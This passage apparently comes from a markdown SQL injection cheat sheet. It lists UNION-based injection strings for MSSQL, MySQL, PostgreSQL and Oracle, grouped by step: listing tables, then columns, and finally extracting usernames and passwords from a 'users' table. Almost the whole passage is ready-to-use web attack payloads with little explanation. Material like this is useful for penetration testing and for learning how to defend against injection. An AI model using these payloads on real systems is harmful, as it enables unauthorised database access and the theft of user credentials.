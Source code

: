         ```
        ' UNION SELECT table_name,NULL FROM information_schema.tables--
        ' UNION SELECT table_name,NULL FROM information_schema.tables#

        ' UNION SELECT group_concat(table_name),NULL FROM information_schema.tables--
        ' UNION SELECT group_concat(table_name),NULL FROM information_schema.tables#
        ```

    - **PostgreSQL**

        ```
        ' UNION SELECT table_name,NULL FROM information_schema.tables--
        ```

    - **Oracle**

        ```
        ' UNION SELECT table_name,NULL FROM all_tables--
        ```

    Get the column name from the table name you got.

    - **MSSQL**

        ```
        ' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='table_name'--
        ```

    - **MySQL**

        ```
        ' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='table_name'--
        ' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='table_name'#
        ```

    - **PostgreSQL**

        ```
        ' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='table_name'--
        ```

    - **Oracle**

        ```
        ' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='table_name'--
        ```

    Get the desired information in the database.  
    For instance, suppose you want to get the username and password from the table named 'users'.

    ```
    ' UNION SELECT username,password FROM users#
    ' UNION SELECT username || '~' || password FROM users#
    ' UNION SELECT NULL,username || '~' || password FROM users#
    ' UNION SELECT username,password FROM users WHERE username='admin' AND password='password1'#
    ' UNION SELECT username,password FROM users WHERE username='admin' OR password='password1'#
    ' UNION SELECT username,password FROM users WHERE username='admin' AND password LIKE 'pas%'#
    ```

